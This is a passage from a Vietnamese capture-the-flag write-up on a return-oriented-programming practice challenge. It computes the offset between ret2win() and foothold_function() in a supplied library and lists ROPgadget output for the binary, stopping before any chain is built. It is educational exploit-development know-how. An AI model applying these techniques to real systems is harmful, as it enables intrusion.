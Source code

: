 - Tìm ofset giữa hàm `ret2win()` và `foothold_function()`. Dùng `nm` để xem các hàm trong thư viện động đã cho
![image](https://hackmd.io/_uploads/B1mGPfs4C.png)
- Ofset: `0x0000000000000a81 - 0x000000000000096a = 0x117`
- Để có thể gọi hàm `foothold_function()` thì chúng ta thông qua chuỗi rop để có thể thực hiện
```
Gadgets information
============================================================
0x00000000004007be : adc byte ptr [rax], ah ; jmp rax
0x0000000000400732 : adc cl, byte ptr [rcx] ; and byte ptr [rax], al ; push 6 ; jmp 0x4006c0
0x0000000000400717 : add al, 0 ; add byte ptr [rax], al ; jmp 0x4006c0
0x0000000000400916 : add al, bpl ; ret
0x00000000004006f7 : add al, byte ptr [rax] ; add byte ptr [rax], al ; jmp 0x4006c0
0x0000000000400917 : add al, ch ; ret
0x00000000004009c2 : add bl, al ; add rax, rbp ; ret
0x000000000040078f : add bl, dh ; ret
0x0000000000400a3d : add byte ptr [rax], al ; add bl, dh ; ret
0x0000000000400a3b : add byte ptr [rax], al ; add byte ptr [rax], al ; add bl, dh ; ret
0x00000000004006d7 : add byte ptr [rax], al ; add byte ptr [rax], al ; jmp 0x4006c0
0x00000000004008eb : add byte ptr [rax], al ; add byte ptr [rax], al ; leave ; ret
0x000000000040083c : add byte ptr [rax], al ; add byte ptr [rax], al ; push rbp ; mov rbp, rsp ; pop rbp ; jmp 0x4007d0
0x000000000040083d : add byte ptr [rax], al ; add byte ptr [rbp + 0x48], dl ; mov ebp, esp ; pop rbp ; jmp 0x4007d0
0x00000000004008ec : add byte ptr [rax], al ; add cl, cl ; ret
0x00000000004006d9 : add byte ptr [rax], al ; jmp 0x4006c0
0x00000000004008ed : add byte ptr [rax], al ; leave ; ret
0x00000000004007c6 : add byte ptr [rax], al ; pop rbp ; ret
0x000000000040083e : add byte ptr [rax], al ; push rbp ; mov rbp, rsp ; pop rbp ; jmp 0x4007d0
0x00000000004007c5 : add byte ptr [rax], r8b ; pop rbp ; ret
0x000000000040083f : add byte ptr [rbp + 0x48], dl ; mov ebp, esp ; pop rbp ; jmp 0x4007d0
0x0000000000400827 : add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000400752 : add cl, byte ptr [rcx] ; and byte ptr [rax], al ; push 8 ; jmp 0x4006c0
0x00000000004008ee : add cl, cl ; ret
0x00000000004006e7 : add dword ptr [rax], eax ; add byte ptr [rax], al ; jmp 0x4006c0
0x0000000000400707 : add eax, dword ptr [rax] ; add byte ptr [rax], al ; jmp 0x4006c0
0x00000000004009c5 : add eax, ebp ; ret
0x00000000004006b3 : add esp, 8 ; ret
0x00000000004009c4 : add rax, rbp ; ret
0x00000000004006b2 : add rsp, 8 ; ret
0x00000000004006d4 : and byte ptr [rax], al ; push 0 ; jmp 0x4006c0
0x00000000004006e4 : and byte ptr [rax], al ; push 1 ; jmp 0x4006c0
0x00000000004006f4 : and byte ptr [rax], al ; push 2 ; jmp 0x4006c0
0x0000000000400704 : and byte ptr [rax], al ; push 3 ; jmp 0x4006c0
0x0000000000400714 : and byte ptr [rax], al ; push 4 ; jmp 0x4006c0
0x0000000000400724 : and byte ptr [rax], al ; push 5 ; jmp 0x4006c0
0x0000000000400734 : and byte ptr [rax], al ; push 6 ; jmp 0x4006c0
0x0000000000400744 : and byte ptr [rax], al ; push 7 ; jmp 0x4006c0
0x0000000000400754 : and byte ptr [rax], al ; push 8 ; jmp 0x4006c0
0x00000000004006a9 : and byte ptr [rax], al ; test rax, rax ; je 0x4006b2 ; call rax
0x0000000000400712 : and cl, byte ptr [rcx] ; and byte ptr [rax], al ; push 4 ; jmp 0x4006c0
0x00000000004009ba : call ptr [rax - 0x3d]
0x00000000004009a4 : call qword ptr [rax + 0x4855c3c9]
0x0000000000400b93 : call qword ptr [rax - 0x2d000000]
0x0000000000400c8b : call qword ptr [rbx]
0x00000000004006b0 : call rax
0x00000000004006e2 : cmp cl, byte ptr [rcx] ; and byte ptr [rax], al ; push 1 ; jmp 0x4006c0
0x0000000000400a1c : fmul qword ptr [rax - 0x7d] ; ret
0x0000000000400843 : in eax, 0x5d ; jmp 0x4007d0
0x00000000004006ae : je 0x4006b2 ; call rax
0x00000000004007b9 : je 0x4007c8 ; pop rbp ; mov edi, 0x601070 ; jmp rax
0x00000000004007fb : je 0x400808 ; pop rbp ; mov edi, 0x601070 ; jmp rax
0x00000000004002d0 : jmp 0x4002a5
```